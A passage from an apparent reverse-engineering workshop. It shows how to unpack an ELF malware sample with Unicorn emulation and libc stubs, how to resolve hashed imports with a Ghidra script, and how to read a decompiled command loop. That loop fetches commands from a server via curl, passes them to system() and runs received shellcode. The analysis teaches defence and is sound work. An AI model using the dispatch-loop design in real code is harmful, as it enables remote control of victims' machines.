# (1) Keep track of imported symbols and stubbed functions
self.imports = {} # Resolved Imports
self.stubs = {} # Stubbed addresses
self.history = []
# Create Unicorn state
self.uc = uc = Uc(arch=UC_ARCH_X86, mode=UC_MODE_64)
# (2) Allocate stack space
uc.mem_map(Emulator.STACK_VA, stack_size)
self.reset_stack()
# (3) Map the executable image segments and align them
map_size = sum(map(lambda x: (x.virtual_size & ~(PAGE_SIZE - 1)) + PAGE_SIZE, elf.segments))
uc.mem_map(base, map_size)
for segment in elf.segments:
rva = segment.virtual_address
size = segment.virtual_size
va = base + rva
assert rva + size < map_size, f"Not enough mapped memory! {map_size:08X} < {rva + size:08X}"
uc.mem_write(base + rva, bytes(segment.content))
# (4) Prepare imported symbols for stubbing.
for reloc in elf.relocations:
rva = reloc.address
before, = unpack('<Q', uc.mem_read(base + rva, 8)) # 64 bits
relocated = before + base + reloc.addend
if reloc.has_symbol and reloc.symbol.name:
self.imports[relocated] = reloc.symbol.name
self.imports[reloc.symbol.name] = relocated
uc.mem_write(base + rva, pack('<Q', relocated))
# (5) Add some hooks for Unicorn to notify us.
uc.hook_add(UC_HOOK_CODE, self._on_rip_updated)
uc.hook_add(UC_HOOK_MEM_INVALID, self._on_segv)
# (6) Configure a bogus stack cookie (at FS:[0x28])
uc.mem_map(0, PAGE_SIZE)
uc.mem_write(0, bytes(PAGE_SIZE))
def start(self, rva: int, until=0, timeout=0, count=0):
"""Start emulation."""
self.uc.emu_start(begin=self.base + rva, until=self.base + until, timeout=timeout, count=count)
def reset_stack(self):
# Initialize RSP and RBP to point to the top of the stack
for reg in [UC_X86_REG_RBP, UC_X86_REG_RSP]:
self.uc.reg_write(reg, Emulator.STACK_VA + self._stack_size - 8)
def hook_add(self, *args, **kw):
"""Passthrough for Uc.hook_add."""
self.uc.hook_add(*args, **kw)
def stub_add(self, function, stub):
"""Register a stub to be called instead of the actual code."""
if function in self.imports:
function = self.imports[function]
if isinstance(function, int):
self.stubs[function] = stub
else:
raise Exception(f'Function {function} does not exist!')
def _on_rip_updated(self, uc, address, value, data):
"""
Called every time the instruction pointer updates.
Updates the recent instruction trace and dispatches
to the stub at this address if there is one.
"""
# (1) Update the history (Last 10 instructions)
if len(self.history) > 10:
self.history = self.history[1:]
self.history.append(address)
# (2) Attempt to dispatch to a stub.
imported = address in self.imports
if imported and address not in self.stubs:
uc.emu_stop()
stub = self.imports[address]
print(f'ERROR: Imported function called without a stub: {stub}')
elif address in self.stubs:
self.stubs[address](uc, address)
rsp = uc.reg_read(UC_X86_REG_RSP)
uc.reg_write(UC_X86_REG_RSP, rsp + 8)
# Patch instruction pointer with return address.
rip, = unpack('<Q', uc.mem_read(rsp, 8))
uc.reg_write(UC_X86_REG_RIP, rip)
def _on_segv(self, uc, access, address, size, value, data):
"""Display last execution locations on access violation."""
print(f'Segmentation Fault! rip={address:016X}')
if len(self.history):
print(' Most Recent Instructions:')
for i, h in enumerate(self.history[::-1]):
print(f' #{i:02d} {h:016X}')
This class is quite a handful, but it only has two methods that do anything complicated. Let's break them down one at a time.
Breakdown of Emulator.__init__
This method is responsible for creating the emulator wrapper. It can be thought of as a simplified loader. Going through the numbered code blocks:
- First the method defines some variables which will be used to trace the instruction history, the registered function stubs, and the symbols that are imported by the sample.
- A chunk of memory is mapped to the emulator's state for the stack. The registers
rbpandrspare set to point at the top of the stack, because the stack grows downwards (Allocating space by callingsub rsp, <space>;) - We perform the job that the ELF loader would do by calculating the total memory size required to map the code and data segments of the sample into memory, then map that memory for Unicorn and copy (
uc.mem_write) the bytes into the mapped memory. - We continue performing the loader's job by walking through the relocation entries and identifying those which are for external symbols (
reloc.has_symbol). When they do, we perform the relocation and store the imported symbol name inself.imports. Since we are not loading the external libraries, this is necessary to detect calls into external code and stop the emulator if the call is not handled by our script. - Hooks are registered with Unicorn so that it calls our wrapper on every single instruction and whenever an access to unmapped memory (segmentation fault) occurs. The latter is handled by dumping out recently emulated instruction adddresses for manual investigation, and the former is handled by the
_on_rip_updated_methodwhich will be broken down next. - This is necessary because Linux stores the stack cookie at
FS:[0x28]which needs to be mapped. We map the first page of memory (0000 - 1000) to avoid segmentation faults.
Breakdown of Emulator._on_rip_updated
This method is called on every instruction pointer update and is responsible for the bulk of added functionality. It performs instruction history tracking, as well as stubbed address lookups and dispatching.
- Update the history by keeping the last 10 instruction addresses that have executed.
- Stub lookup and dispatch. If the address is an imported symbol and doesn't have an associated stub, then execution cannot continue, so print an error and stop emulating. Otherwise, if the address has an associated stub, call the stub and clean up the stack by simulating a
retinstruction (mov rip, [rsp]; add rsp, 8), thus returning code execution to the calling function and skipping the stubbed function code.
Stubbing External Functions
This is all well and good, but if you were to try to run the emulation right now, the very first thing that you would get is the error message:
ERROR: Imported function called without a stub: malloc
This makes sense because looking back at main, it does indeed start with a malloc, followed by a rand. There is no good way to know if ths initialization is important, so we ought to stub as much as possible.
This can be a very tedious process, and having good instrumentation is important to properly identify external calls. Some samples obfuscate external calls as well, meaning that the approach shown here might not always work. In general, the cycle for stubbing out a function can be described in 3 steps:
- Lookup the function signature and documentation
- Implement the side effects in the host script
- Test that the emulated code makes it past the stub.
This process is repeated over and over, until enough external calls are stubbed for the emulation to proceed to the desired point.
First, we'll abstract away a simple heap implementation to stub all of the memory management calls. This will make it possible to track memory allocations to recover the unpacked module.
class Heap:
"""Emulate a memory heap."""
def __init__(self, start, emu):
self._start = start
self._next = start
self.chunks = {}
emu.stub_add('malloc', self.malloc)
emu.stub_add('free', self.free)
emu.stub_add('mprotect', self.mprotect)
emu.stub_add('memalign', self.memalign)
emu.stub_add('memset', self.memset)
emu.stub_add('memcpy', self.memcpy)
# Hooks for stubbing.
def malloc(self, uc, address):
# void* malloc(size_t size)
# Read arguments
size = uc.reg_read(UC_X86_REG_RDI)
# Align size to 0x1000 for Unicorn.
# This greatly simplifies heap management at the cost of
# much bigger allocations (requesting just 1 byte allocates 0x1000)
aligned = (size & ~0xFFF) + 0x1000
# Log the malloc call and map the memory.
print(f'malloc requested={size} alloc={aligned} addr={self._next:016X}')
uc.mem_map(self._next, aligned)
# Initialize memory to CC CC CC ... for debugging purposes.
uc.mem_write(self._next, b'\xCC' * aligned)
# Track the allocated chunk.
self.chunks[self._next] = aligned
# Set return value (RAX) to allocated address.
uc.reg_write(UC_X86_REG_RAX, self._next)
# Increase the address for the next chunk.
self._next += aligned
def free(self, uc, address):
# void free(void* buf)
# Don't free anything.
pass
def mprotect(self, uc, address):
# void* mprotect(void* buf, size_t size, int prot)
# Treat everything as RWX, just return the address in case it's used.
uc.reg_write(UC_X86_REG_RAX, uc.reg_read(UC_X86_REG_RDI))
def memalign(self, uc, address):
# void* memalign(size_t alignment, size_t size)
size = uc.reg_read(UC_X86_REG_RSI)
aligned = (size & ~0xFFF) + 0x1000
print(f'memalign requested={size:08X} aligned={size:08X}')
uc.mem_map(self._next, aligned)
uc.mem_write(self._next, b'\xCC'*aligned)
self.chunks[self._next] = aligned
# Return allocated address.
uc.reg_write(UC_X86_REG_RAX, self._next)
self._next += aligned
def memset(self, uc, address):
# void* memset(void* dst, int val, size_t len)
# Args
dst = uc.reg_read(UC_X86_REG_RDI)
val = bytes([uc.reg_read(UC_X86_REG_RSI)])
size = uc.reg_read(UC_X86_REG_RDX)
# Implementation
uc.reg_write(UC_X86_REG_RAX, dst)
uc.mem_write(dst, val * size)
def memcpy(self, uc, address):
# void* memcpy(void* dst, void* src, size_t size)
dst = uc.reg_read(UC_X86_REG_RDI)
src = uc.reg_read(UC_X86_REG_RSI)
size = uc.reg_read(UC_X86_REG_RDX)
data = uc.mem_read(src, size)
uc.mem_write(dst, bytes(data))
uc.reg_write(UC_X86_REG_RAX, dst)
The code should be straightforward as it is only implementing the functions by modifying the CPU and memory state of the emulator. We will work through the example of how memcpy was stubbed, as the principle can be generalized to all stubs.
First, we look at the manual entry for memcpy, more specifically the function signature, its return value, and what its side effects are.
$ man memcpy
NAME
memcpy - copy memory area
SYNOPSIS
#include <string.h>
void *memcpy(void *dest, const void *src, size_t n);
DESCRIPTION
The memcpy() function copies n bytes from memory area src to memory area dest. The memory areas must not overlap.
Use memmove(3) if the memory areas do overlap.
RETURN VALUE
The memcpy() function returns a pointer to dest.
To implement this, we'll need to read n bytes from src and write them to dst. Then we must return dst. In x64 Linux, the calling convention for the first 6 arguments is rdi, rsi, rdx, rcx, r8 and r9. The return value is in rax. This should be enough for most function stubs.
So we first read the register values of rdi, rsi, and rdx using uc.reg_read, then we read rdx bytes from the address in rsi using uc.mem_read and write them into the address at rdi using uc.mem_write.
Lastly, we set rax to the value of rdi, which is the destination buffer, using uc.reg_write.
That's all. Now our function stub will alter the CPU and memory state in the same way as the real memcpy would.
Quickly Finding Functions to Stub
Recall from lab 1 that Ghidra has a useful view called the Function Call Graph which facilitates visualizing the functions called by a subfunction. This can significantly speed up the iterative process described above when possible:

The next code snippet defines the remaining function stubs necessary for successful emulation. If you are curious, go ahead and skim through the code, otherwise you can safely skip to the next section.
def cstr(uc, va):
"""Read a null terminated string at `va`"""
out = ''
c = 1
while c:
c = uc.mem_read(va + len(out), 1)[0]
out += chr(c) if c else ''
return out
def rand(uc, address):
import random
uc.reg_write(UC_X86_REG_RAX, random.getrandbits(32))
def puts(uc, address):
va = uc.reg_read(UC_X86_REG_RDI)
out = cstr(uc, va)
print(f'puts>>> {out}')
def uncompress(uc, address):
# uncompress(byte* dst, uint* dstLen, byte* src, srcLen)
import zlib
dst = uc.reg_read(UC_X86_REG_RDI)
dlen = uc.reg_read(UC_X86_REG_RSI)
src = uc.reg_read(UC_X86_REG_RDX)
slen = uc.reg_read(UC_X86_REG_RCX)
data = uc.mem_read(src, slen)
out = zlib.decompress(data)
uc.mem_write(dst, bytes(out))
def dlinfo(uc, address):
# Return "success".
uc.reg_write(UC_X86_REG_RAX, 0)
def strlen(uc, address):
va = uc.reg_read(UC_X86_REG_RDI)
out = cstr(uc, va)
uc.reg_write(UC_X86_REG_RAX, len(out))
def dlopen(uc, address):
va = uc.reg_read(UC_X86_REG_RDI)
out = cstr(uc, va)
print(f'dlopen lib={out}')
uc.reg_write(UC_X86_REG_RAX, 0)
def printf(uc, address):
# FIXME: I couldn't figure out why RDI has the wrong value here.
# maybe something is not implemented properly elsewhere.
# The printing is for aesthetic value only, in any case.
arg = uc.reg_read(UC_X86_REG_RDI) - 0x8008
out = cstr(uc, arg)
print(f'printf>>> {out.strip()}')
Putting it all Together
We're almost ready to unpack this payload! The last thing to do is to stub lookup which we know will fail since no library is loaded.
As we saw in the previous lab, lookup takes two unsigned 32 bit integers and returns a pointer to the symbol or function, as a way to hide which functions the packed module actually calls. We'll take advantage of that to build "fake" pointers which contain the module hash in the upper 32 bits and the symbol hash in the lower 32 bits.
If our theory that the payload is going to store the resolved symbol addresses somewhere is correct, then the unpacked data will contain the (module, symbol) combination "pointer" in its data whereever it would have stored the real pointer.
As an added bonus, if the payload makes any calls during unpacking using these symbols, we will get a segfault at the instruction corresponding to (module. symbol). This is win-win for us.
def lookup(uc, address):
module = uc.reg_read(UC_X86_REG_RDI)
symbol = uc.reg_read(UC_X86_REG_RSI)
print(f'Lookup module={module:08X} symbol={symbol:08X}')
addr = (module << 32) | symbol
uc.reg_write(UC_X86_REG_RAX, addr)
At last, we can create our emulator and run it. On the first attempt, we end up with output similar to the following:
...
Lookup module=4B621F2A symbol=45A45044
...
Lookup module=CFF72411 symbol=75F258D3
Segmentation Fault! rip=CFF7241175F258D3 <--- That's a (module, symbol) tuple.
Most Recent Instructions:
#00 0000000000102540
#01 000000000010253B
#02 0000000000102534
#03 000000000010252D
#04 0000000000102526
#05 000000000010251F
#06 000000000010251B
#07 0000000000102514
#08 000000000010250D
#09 0000000000102509
#10 0000000000102502
And as expected, it looks like the sample called into a resolved symbol. Unfortunately, to be able to retrieve the unpacked code, we need to either do some complicated acrobatics in Unicorn hooks, or have the emulation end without crashing. Fortunately, the history shows that the last instruction that executed before the segmentation fault was at 0x102540... That's in the unpack function, more specifically:
0010252d 48 81 c3 50 02 00 00 ADD RBX,0x250
00102534 48 8b 85 28 fc ff ff MOV RAX,qword ptr [local_3e0 + RBP]
0010253b bf ef be ad d3 MOV EDI,0xd3adbeef
00102540 ff d0 CALL RAX
It's reasonable to assume that if the sample is calling a resolved symbol, the unpacking must be complete, so we'll tentatively set the STOP_RVA to the instruction immediately before the crash.
STOP_RVA = 0x2540 # Comment out to experience the segmentation fault described above.
# Create the unicorn wrapper with the sample.
emu = Emulator(ELF, base=BASE)
# Allocate a heap starting at a high address to avoid memory conflicts.
heap = Heap(0x7F000000, emu)
# Register function stubs for external symbols.
emu.stub_add('rand', rand)
emu.stub_add('puts', puts)
emu.stub_add('uncompress', uncompress)
emu.stub_add('dlopen', dlopen)
emu.stub_add('dlinfo', dlinfo)
emu.stub_add('strlen', strlen)
emu.stub_add('printf', printf)
emu.stub_add(BASE + LOOKUP_RVA, lookup)
emu.start(START_RVA, until=STOP_RVA)
print('Emulation Completed')
# Heuristic: Grab the biggest chunk of memory and treat it as the module.
mapped = 0
maxsz = 0
for addr, size in sorted(heap.chunks.items()):
if size > maxsz:
mapped = addr
maxsz = size
print(f'Module @ {mapped:016X} size={maxsz}')
with open('bin/unpacked.bin', 'wb') as o:
o.write(emu.uc.mem_read(mapped, maxsz))
Running the script, and we have a nice surprise!
Interestingly, our stub for dlopen shows that 3 external libraries are being loaded during the unpacking. This is a strong indicator for what the packed payload might attempt to do:
dlopen lib=libc.so.6
dlopen lib=libcurl.so.4
dlopen lib=libpthread.so.0
Now that we have the unpacked data in bin/unpacked.bin, it's time to map it into Ghidra and give the analysis a spin. If it unpacked properly, Ghidra should detect some valid x86 code that makes sense.
Mapping a raw binary file into Ghidra
In Ghidra, select File > Add to Program... and navigate to unpacked.bin. Next, click on options and change the base address to something nice and out of the way, like 0042000000, and give it a meaningful block name, like unpacked. Navigate to the Program Tree and select unpacked, then go to the menu and select Analysis > Auto Analyze ‘aba' ... and click OK.
If all went well, you should now have some new defined functions in the unpacked
Great! All that's missing now is to figure out what the (module, symbol) tuples are mapped to, and we'll be able to start analyzing the payload!
The hardest part is out of the way! Now that you have the unpacked payload ready for analysis, the final straight is in sight. In this step, you will blackbox the hashing function and build a reverse lookup dictionary to recover the imported symbols and then find the payload's kill-switch. After this step, you will have learned the following:
- Blackboxing functions with Emulation
- Scripting Ghidra to automate tedious work
- Using symbolic execution to abstract program behavior
- Using a constraint solver over abstracted program behavior to answer questions
Ready? Let's go!
Building a Reverse Hash Lookup
To build the reverse hash lookup, we'll use the emulator created in the previous lab. We'll specify the input parameters of the symbol hashing function identified in the first lab and run it on all the symbols in each of the imported library. The results can then be written to a JSON file that can be used to lookup the symbol name corresponding to a hash.
import json
HASH_START_RVA = 0x1209 # The offset of the hashing function
HASH_END_RVA = 0x12F3 # The offset of the last instruction
STRING_VA = 0x44000000 # A memory location to put the symbol
# (1) Library names found in the second lab
LIB_NAMES = [
'libc.so.6',
'libcurl.so.4',
'libpthread.so.0'
]
SYMBOLS = {}
# (2) Map a small buffer that will contain the string.
try:
emu.uc.mem_map(STRING_VA, PAGE_SIZE)
except:
# Jupyter Notebook re-evaluated the code.
# The memory is already mapped. Ignore.
pass
# (3) Encapsulate the logic in a Python function
def hash(symbol, emu):
emu.reset_stack()
emu.uc.mem_write(STRING_VA, symbol.encode())
# Set the function's arugments.
emu.uc.reg_write(UC_X86_REG_RDI, STRING_VA)
emu.uc.reg_write(UC_X86_REG_RSI, len(symbol))
# Call the function.
emu.start(HASH_START_RVA, until=HASH_END_RVA)
return emu.uc.reg_read(UC_X86_REG_RAX)
# Now hash every library's exported symbols.
for lib in LIB_NAMES:
# Hash the library's name
module = hash(lib, emu)
SYMBOLS[module] = lib
# Locations to try when looking for the local library.
LOCATIONS = [
f'/usr/lib/x86_64-linux-gnu/{lib}',
f'/lib/x86_64-linux-gnu/{lib}',
f'/lib/{lib}',
f'/usr/lib/{lib}'
]
# Use the first location that contains the library.
for l in LOCATIONS:
img = lief.parse(l)
if img:
break
# Hash the library's exported symbols.
try:
for sym in img.exported_symbols:
if sym.name:
symbol = hash(sym.name, emu)
SYMBOLS[symbol] = sym.name
except:
print(f'Library {lib} could not be found!')
print(f'Hashed {len(SYMBOLS)} symbols')
# Write the hashed symbols to disk.
with open('bin/hashes.json', 'w') as out:
json.dump(SYMBOLS, out)
This code snippet might take a while to run, because it will open the libraries locally using LIEF and process each library's exported symbols, computing the hash and adding it to a global dictionary.
The code first allocates a page of memory where it then writes a symbol name, and calls the hash wrapper function, which is a stub that sets up the emulator to run the real hash function by populating the rdi and rsi registers with the allocated buffer address and the length of the symbol to hash. The return value is then taken from rax and returned.
Creating a Ghidra Script to Resolve Hashes
In the previous lab, we had output the module and symbol hash as the resolved address, following up on that, we will now write a Ghidra script that takes 8 bytes at the memory cursor, and if they resolve to a hash in the hash dictionary we built, labels the address with the original symbol name.
First, open the Ghidra Script editor and create a new script by pressing on the Create Script button and selecting Python. Give it a sensible name such as resolve.py and write the following script:
# Resolves the hashed import at the current address.
#@author ABA
#@category _NEW_
#@keybinding
#@menupath
#@toolbar
QWORD = ghidra.program.model.data.QWordDataType
SYMTYPE = ghidra.program.model.symbol.SourceType.USER_DEFINED
HASHES = '/path/to/workshop/bin/hashes.json'
import json
SYMBOLS = None
def lookup(symbol):
try:
return SYMBOLS[str(symbol)]
except:
return None
with open(HASHES, 'r') as hashes:
SYMBOLS = json.load(hashes)
def process():
# Get the data at the selected address
listing = currentProgram.getListing()
data = listing.getDataAt(currentAddress)
if not data:
print('Not data!')
return
if isinstance(data.getDataType(), QWORD):
val = data.getValue().getUnsignedValue()
module = (val >> 32) & 0xFFFFFFFF
symbol = val & 0xFFFFFFFF
m = lookup(module)
m = m if m else 'unknown'
s = lookup(symbol)
if not s:
print('Symbol %08X::%08X could not be resolved.' % (module, symbol))
return
label = m + '.' + s
createLabel(currentAddress, label, True, SYMTYPE)
print('Symbol %08X::%08X resolved to %s::%s.' % (module, symbol, m, s))
process()
With that in place, it's time to locate some of the resolved symbols and test the reverse hash lookup.
Reverse Hash Lookup
Let's start by locating one of the hashes that the unpacker script dumped. Select Search > Memory... (S) from the Ghidra Menu and make sure that the format is set to Hex. Grab any of the hashes from the unpacker output (4B621F2A will do) and type it in the Search Value box. After hitting search you should find a number of results from the unpacked segment. Navigate to any result and let's try the hash lookup function.
Ghidra has already detected cross refefenreces to this address, making it easy to identify which bytes are the full hash. The script we wrote expects a QWORD, so let's right click on the address, and select Data > qword. Now the listing should look like:
QWORD_42004048 XREF[1]: FUN_42001090:42001090
42004048 09 ad 85 c4 11 24 f7 cf dq CFF72411C485AD09h
All that's left to do is run the script by selecting the QWORD and clicking the Run button from the script's code listing. Subsequent runs can be repeated with the shortcut Ctrl + Shift + R.
After running the script, we get the following output and a label is added to our listing. Hoorah!
resolve.py> Running...
Symbol 4B621F2A::F9D5E5BF resolved to libc.so.6::rand.
resolve.py> Finished!
Analysing the Payload
Using the Functions panel, right click to enable the "memory block" column, then filter for functions in the unpacked section. Sort by function size to identify interesting functions.

Analyzing FUN_420012BF
This is the largest function, with 1117 code bytes, so it hopefully performs something interesting. Upon navigating to the function, the first thing you will see looks like this:
**************************************************************************************************
* FUNCTION *
**************************************************************************************************
undefined FUN_420012bf()
undefined AL:1 <RETURN> XREF[2]: 420013a0(W),
FUN_420012bf XREF[1]: FUN_42001855:420019f1(*)
420012bf 55 PUSH RBP
420012c0 48 89 e5 MOV RBP,RSP
420012c3 48 83 ec 70 SUB RSP,0x70
420012c7 48 89 7d 98 MOV qword ptr [RBP + local_70],RDI
420012cb 64 48 8b 04 25 28 00 MOV RAX,qword ptr FS:[0x28]
00 00
420012d4 48 89 45 f8 MOV qword ptr [RBP + local_10],RAX
420012d8 31 c0 XOR EAX,EAX
420012da c7 45 b0 00 00 00 00 MOV dword ptr [RBP + local_58],0x0
420012e1 bf 00 10 00 00 MOV EDI,0x1000
420012e6 e8 15 fe ff ff CALL FUN_42001100 ; undefined FUN_42001100()
420012eb 48 89 45 d8 MOV qword ptr [RBP + local_30],RAX
420012ef 48 8b 45 d8 MOV RAX,qword ptr [RBP + local_30]
420012f3 48 89 45 e8 MOV qword ptr [RBP + -0x18],RAX
420012f7 48 8b 45 e8 MOV RAX,qword ptr [RBP + -0x18]
420012fb c6 00 00 MOV byte ptr [RAX],0x0
LAB_420012fe XREF[1]: 420016ec(j)
420012fe c7 45 ac 90 ec 39 c3 MOV dword ptr [RBP + -0x54],0xc339ec90
42001305 c7 45 a8 05 00 00 00 MOV dword ptr [RBP + local_60],0x5
4200130c 48 c7 45 e0 00 00 00 00 MOV qword ptr [RBP + local_28],0x0
42001314 48 8b 05 fd 2d 00 00 MOV RAX,qword ptr [DAT_42004118]
4200131b 48 85 c0 TEST RAX,RAX
4200131e 0f 84 ba 01 00 00 JZ LAB_420014de
42001324 c7 45 bc 12 27 00 00 MOV dword ptr [RBP + local_4c],0x2712
4200132b 8b 4d bc MOV ECX,dword ptr [RBP + local_4c]
4200132e 48 8b 05 e3 2d 00 00 MOV RAX,qword ptr [DAT_42004118]
42001335 48 8d 15 c4 0c 00 00 LEA RDX,[s_http://localhost:3000_42002000] ; "http://localhost:3000"
The localhost:3000 URL immediately sticks out and raises a "suspicious" flag. The rest of the function looks like it has some overarching logic and calls into a bunch of other functions. We'll start by drilling down each function to hope that it will eventually call one of the hashed symbols which we have looked up. The first such call is to the function FUN_4200110, which has a very short listing:
undefined FUN_42001100()
undefined AL:1 <RETURN>
FUN_42001100 XREF[4]: FUN_420012bf:420012e6(c),
FUN_42001855:4200186d(c),
FUN_42001855:420018ad(c),
FUN_42001855:42001921(c)
42001100 ff 25 7a 2f 00 00 JMP qword ptr [libc.so.6.malloc]
So it calls the resolved malloc. Let's renamed it to unpacked_malloc.
Proceeding in a similar fashion for the remaining function calls, we eventually get a much cleaner resulting function.
undefined8 maybe_dispatch_loop(void) {
uint uVar1;
long lVar2;
bool bVar3;
int curl_result;
undefined *pShellcode;
undefined8 uVar4;
int iVar5;
long in_FS_OFFSET;
uint local_60;
uint opcode;
long local_28;
uint *maybe_command;
uint oper;
lVar2 = *(long *)(in_FS_OFFSET + 0x28); // Stack cookie, can be ignored.
bVar3 = false;
// (1) Allocate a buffer to receive the command
maybe_command = (uint *)unpacked_malloc(0x1000);
*(undefined *)maybe_command = 0;
// Inifinite Dispatch Loop
do {
opcode = 0xc339ec90; // This appears to store the opcode that will run.
local_60 = 5;
local_28 = 0;
// (2) Request a command from the C&C
if (curl_ctx != 0) {
// Make curl request
curl_easy_setopt(curl_ctx,0x2712,PhoneHomeUrl);
curl_easy_setopt(curl_ctx,0x2711,&local_28);
curl_easy_setopt(curl_ctx,0x4e2b,FUN_42001754); // This function is most likely the buffer write callback.
curl_result = curl_easy_perform(curl_ctx);
// (3) Check the result and decode the opcode
if (curl_result == 0) {
if (((uint)((ulong)(local_28 + -4) >> 0x20) & ((uint)((ulong)local_28 >> 0x20) ^ 0xffffffff)
) >> 0x1f == 0) {
// (3) Read an operation code and decode it.
oper = *maybe_command;
iVar5 = ((oper + (~oper | 0xff0000ff) + 1 & ~(oper + (~oper | 0xff0000) + 1 >> 8)) +
(oper + (~oper | 0xff0000) + 1 >> 8) +
(oper + (~oper & 0xffff0000 | (uint)CONCAT11(0xff,(char)~oper)) + 1) * 0x100) -
((oper + (~oper & 0xffff0000 | (uint)CONCAT11(0xff,(char)~oper)) + 1) * 0x100 &
(oper + (~oper | 0xff0000ff) + 1 & ~(oper + (~oper | 0xff0000) + 1 >> 8)) +
(oper + (~oper | 0xff0000) + 1 >> 8));
opcode = (iVar5 - (iVar5 * 2 | 0x56280e78U)) + 0xab14073b;
} else {
// Otherwise fallback to the default opcode (sleep)
opcode = 0xc339ec90;
}
} else {
opcode = 0xc339ec90;
}
}
// (4) Handle the opcode
if (opcode == 0xaf03baa8) { // (5) Kill switch??
bVar3 = true;
} else {
if (opcode < 0xaf03baa9) {
uVar1 = (uint)((ulong)local_28 >> 0x20);
// 0x89484fbf => call system with the received buffer as an argument
if (opcode == 0x89484fbf) {
if (((~(uint)((ulong)(4 - local_28) >> 0x20) | uVar1) & ~uVar1) >> 0x1f == 0) {
unpacked_system(maybe_command + 1);
}
} else {
// 0xa37dbc28 => Run Shellcode
if (opcode != 0xa37dbc28) goto LAB_42001674;
if ((((uint)((ulong)(local_28 + -8) >> 0x20) & (uVar1 ^ 0xffffffff)) >> 0x1f == 0) &&
(uVar1 = maybe_command[1],
((uint)((local_28 - (ulong)uVar1) + 8 >> 0x20) & ~(uint)((ulong)(local_28 + 8) >> 0x20)
) >> 0x1f == 0)) {
pShellcode = (undefined *)unpacked_memalign(0x1000,(ulong)uVar1);
unpacked_memcpy(pShellcode,maybe_command + 2,(ulong)uVar1);
unpacked_mprotect(pShellcode,(ulong)uVar1,5);
(*(code *)pShellcode)();
unpacked_mprotect(pShellcode,(ulong)uVar1,3);
unpacked_free(pShellcode);
}
}
} else {
LAB_42001674:
if ((uint)((local_28 + 0x7ffffffffffffff8U ^ local_28 + 0x7ffffffffffffff8 >> 0x3f) -
(local_28 + 0x7ffffffffffffff8 >> 0x3f) >> 0x3f) != 0) {
local_60 = maybe_command[1];
}
}
}
unpacked_sleep((ulong)local_60);
if (bVar3) { // (5) If bVar3 is true, return and exit the dispatch loop.
sem_post(unpacked_semaphore);
uVar4 = 0;
if (lVar2 != *(long *)(in_FS_OFFSET + 0x28)) {
uVar4 = FUN_42001070();
}
return uVar4;
}
} while( true );
}
This sure looks ike it has some malicious functionality. The decompiled code is not that pretty, but it's enough to give us a good idea of what is going on. Let's walk through it step by step.
- A buffer of 4096 bytes is allocated to receive data into.
- Curl is configured to perform a request to
http://localhost:3000, with the buffer as an argument and a function which, when reading through the curl documentation, turns out to be a write callback which will flush the HTTP response bytes into the buffer. Reading the manual here saves considerable time reversingFUN_42001754. - The first 4 bytes of the buffer are read and transformed with a very unsightly combination of bitshifts and bitflips. This is presumably some form of encryption or protection to obfuscate the real opcode.
- Once decoded, the opcode is checked against some 32 bit values which turn out to be symbol hashes that use the same algorithm as the imported symbols, so they can also be looked up and identified. The right operation is performed according to this opcode. There appear to be 4 operations:
- Sleep
- System call
- Run Shellcode
- Exit
- If the hash matches
